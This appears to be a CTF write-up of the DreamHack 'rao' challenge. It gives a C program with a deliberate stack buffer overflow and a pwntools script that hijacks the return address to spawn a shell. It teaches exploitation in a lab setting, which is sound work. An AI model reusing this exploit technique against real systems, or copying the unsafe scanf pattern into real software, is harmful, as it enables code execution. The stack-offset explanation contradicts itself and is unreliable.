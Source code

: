 ```yaml
---
title: "DreamHack PwnTools Notes – Explained"
date: 2025-04-29 02:30:00 +0700
categories: "Pwn Notes"
tags: [pwntools, pwn, notes]
---
```


> _This post walks through a simple `pwntools` exploitation setup using the DreamHack `rao` example._

## Setup Overview

We’re given a basic C program (`rao.c`) that has a classic **stack-based buffer overflow** vulnerability. Here's the code:

```c
// Compile: gcc -o rao rao.c -fno-stack-protector
#include <stdio.h>
#include <unistd.h>

void get_shell() {
    char *cmd = "/bin/sh";
    char *args[] = {cmd, NULL};
    execve(cmd, args, NULL);
}

int main() {
    char buf[0x28];
    printf("Input: ");
    scanf("%s", buf);
    return 0;
}
```

### Important Notes:

- Stack protection (`-fno-stack-protector`) is **explicitly disabled**.
- The buffer is 0x28 (40) bytes long, and uses an unsafe `scanf("%s")` which receives unlimited input length, making it **vulnerable to overflow**.
- We want to overwrite the return address to point to `get_shell()`.

---

## Writing the Exploit – `rao.py`

```python
#!/usr/bin/python3

from pwn import *

p = process('./rao')            # Spawn process for local testing

elf = ELF('./rao')              # Load ELF structure
get_shell = elf.symbols['get_shell']  # Get address of 'get_shell'

payload = b'A'*0x30             # Overflow buffer (0x28) + SFP padding (0x8)
payload += b'B'*0x8
payload += p64(get_shell)       # Overwrite return address

p.sendline(payload)             # Send payload
p.interactive()                 # Get interactive shell
```

### Why `b'A'*0x30 + b'B'*0x8`?

| Address Range               | Stack Content  |
| --------------------------- | -------------- |
| [lower addresses] (top)     |                |
|                             | buf[0]         |
|                             | ...            |
|                             | buf[39]        |
|                             | saved RBP      |
| [higher addresses] (bottom) | return address |

- `0x28` (40) is the size of the buffer, so when we use `0x30` (48), we pad to the LSB of SFP.
- Saved Frame Pointer (SFP) adds another `0x8` bytes, which pad to the LSB of `ret`.
- Here, with the help of `p64()`, we convert the address of `get_shell()` to a 64-bit format, therefore overwrite the return address.
- Total offset before return address: **48 bytes (`0x30`)**.

---

## Key Concepts Recap

| Concept                       | Explanation                                                  |
| ----------------------------- | ------------------------------------------------------------ |
| **Buffer Overflow**           | Overwriting stack memory by writing past the end of a buffer |
| **Return Address Hijack**     | Redirecting code execution to attacker-chosen address        |
| **SFP (Saved Frame Pointer)** | Stored base pointer (can be padding in overflow)             |
| **Pwntools**                  | Python toolset for binary exploitation                       |

---

## Running It

```bash
$ python3 rao.py
[+] Starting local process './rao': pid 416
[*] Switching to interactive mode
$ whoami
$ id
```

If everything works, you’ll get a shell, proving that control has been hijacked successfully.

---

## Resources

- Challenge Link: [DreamHack: rao](https://dreamhack.io/wargame/challenges/351/)
- [Pwntools Documentation](https://docs.pwntools.com/en/stable/)

---
